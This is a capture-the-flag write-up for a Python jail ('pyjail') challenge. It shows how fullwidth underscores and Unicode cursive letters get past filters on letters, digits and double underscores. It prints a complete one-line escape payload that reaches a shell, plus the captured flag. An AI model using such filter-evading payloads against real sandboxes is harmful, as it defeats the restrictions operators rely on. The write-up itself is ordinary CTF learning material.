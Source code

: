 # Zero
> Zero letters, zero numbers, zero underscores, zero builtins, and zero hope of escaping

## About the Challenge
We got a server to connect and also a source code (You cand download the source code [here](zero.zip)). This is a classic pyjail chall where we can't use alphabets (a-z), numbers (0-9), and underscore (__)


[Image extracted text: >>>
test
lol
no]


## How to Solve?
To solve this problem, im using `_＿` to bypass `__` filter (I got this bypass from ByuCTF 2023). To bypass the alphabet and numbers filter, we need to convert our payload to unicode and in this case im using [cursive text generator](https://lingojam.com/CursiveTextGenerator). Here is the final payload I used to spawn a shell

```
(𝔩:=[]._＿𝔠𝔩𝔞𝔰𝔰_＿, 𝔱:=𝔩==𝔩, 𝔩(𝔩._＿𝔟𝔞𝔰𝔢_＿._＿𝔰𝔲𝔟𝔠𝔩𝔞𝔰𝔰𝔢𝔰_＿()[~𝔱*~𝔱*~𝔱*𝔱*~𝔱*~𝔱*~𝔱-~𝔱*~𝔱*~𝔱*~𝔱*~𝔱*𝔱+𝔱*~𝔱*~𝔱*~𝔱*~𝔱+𝔱*~𝔱*~𝔱*~𝔱*~𝔱+𝔱+𝔱+𝔱+𝔱+𝔱+𝔱+𝔱+𝔱+𝔱+𝔱]._＿𝔦𝔫𝔦𝔱_＿._＿𝔤𝔩𝔬𝔟𝔞𝔩𝔰_＿.𝔳𝔞𝔩𝔲𝔢𝔰())[~𝔱*~𝔱*~𝔱*𝔱*~𝔱*~𝔱*~𝔱-~𝔱*~𝔱*~𝔱*~𝔱-𝔱](𝔱._＿𝔡𝔬𝔠_＿[~𝔱*~𝔱*~𝔱*~𝔱+~𝔱*-~𝔱*~𝔱-𝔱:-~𝔱*~𝔱*~𝔱*~𝔱*~𝔱:-~𝔱*~𝔱*~𝔱]))
```

Since we cannot use any number characters, I used the solver from BlueHens CTF 2023 which created a variable called variable `𝔱`


[Image extracted text: >>>
(I :=[J.__(lass_
t:=[==[
I([.__ba8e__
8ubc [488e 8
()[~t*~t*~t*t*~t
*~t*~t_~t*t*~t*~t*~t*t+t*~t*~t*~t*~t+t*~t*~t*~t*~t+t+t +t +t+t+t+t+t+t+t]._
inft
9[ obal 8
bal ue 8 ( ) ) [~t*~t*~t*t*~t*~t*~t_~tx~t*~t*~t-t ]lt
boc __ [~tx~t
*~t*~t+~t*-~t*t-t:_~t*t*~t*~t*~t :_~t*~t*~t ]) )
1s
chal.py
cat
flag
uoftctf{zero_security_too_apparently_Imao}
flag]


## Flag
```
uoftctf{zero_security_too_apparently_lmao}
```